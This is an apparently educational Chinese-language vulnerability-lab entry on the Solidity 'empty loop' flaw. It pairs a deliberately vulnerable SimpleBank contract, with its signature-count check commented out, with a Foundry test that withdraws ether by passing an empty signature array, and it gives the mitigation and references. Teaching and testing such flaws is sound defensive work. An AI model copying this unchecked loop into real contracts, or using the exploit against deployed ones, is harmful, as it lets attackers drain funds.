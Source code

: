 # 空循环

**名称：** 空循环问题

**说明：** 由于验证不充分，攻击者可以简单地传递一个空数组来绕过循环和签名验证。

**减轻：**

检查签名数量 require(sigs.length > 0, "未提供签名");

**参考：**

https://twitter.com/1nf0s3cpt/status/1673195574215213057

https://twitter.com/akshaysrivastv/status/1648310441058115592

https://dacian.me/exploiting-developer-assumptions#heading-unexpected-empty-inputs

**SimpleBank 合约样例:**

```jsx
contract SimpleBank {
    struct Signature {
        bytes32 hash;
        uint8 v;
        bytes32 r;
        bytes32 s;
    }

    function verifySignatures(Signature calldata sig) public {
        require(
            msg.sender == ecrecover(sig.hash, sig.v, sig.r, sig.s),
            "Invalid signature"
        );
    }

    function withdraw(Signature[] calldata sigs) public {
        // Mitigation: Check the number of signatures
        //require(sigs.length > 0, "No signatures provided");
        for (uint i = 0; i < sigs.length; i++) {
            Signature calldata signature = sigs[i];
            // Verify every signature and revert if any of them fails to verify.
            verifySignatures(signature);
        }
        payable(msg.sender).transfer(1 ether);
    }

    receive() external payable {}
}
```

***\*测试方法:\****

仿真测试 --contracts src/test/**empty-loop.sol** -vvvv

```jsx
// Function to test a vulnerability related to signature validation
    function testVulnSignatureValidation() public {
        // Transfers 10 Ether to the SimpleBankContract
        payable(address(SimpleBankContract)).transfer(10 ether);
        
        // Alice's address is set as the first address in the virtual machine
        address alice = vm.addr(1);
        
        // Initiates a "prank" on Alice's account in the virtual machine
        vm.startPrank(alice);

        // Initializes an empty array of Signature structs from the SimpleBank contract
        SimpleBank.Signature[] memory sigs = new SimpleBank.Signature[](0); // empty input

        // Logs Alice's balance before the exploit
        console.log(
            "Before exploiting, Alice's ether balance",
            address(alice).balance
        );
        
        // Calls the withdraw function of the SimpleBank contract with the empty signatures array as the parameter
        // If the SimpleBank contract does not validate the signatures properly, this might result in unauthorized withdrawal
        SimpleBankContract.withdraw(sigs); 

        // Logs Alice's balance after the exploit
        console.log(
            "Afer exploiting, Alice's ether balance",
            address(alice).balance
        );
    }
```

**红色框：传递一个空数组以绕过验证。**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F0c65504d-c3f1-4ee1-b088-76f631784fb3%2FUntitled.png?table=block&id=aa602a09-ccf5-4348-87dd-8ae494f92e4c&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)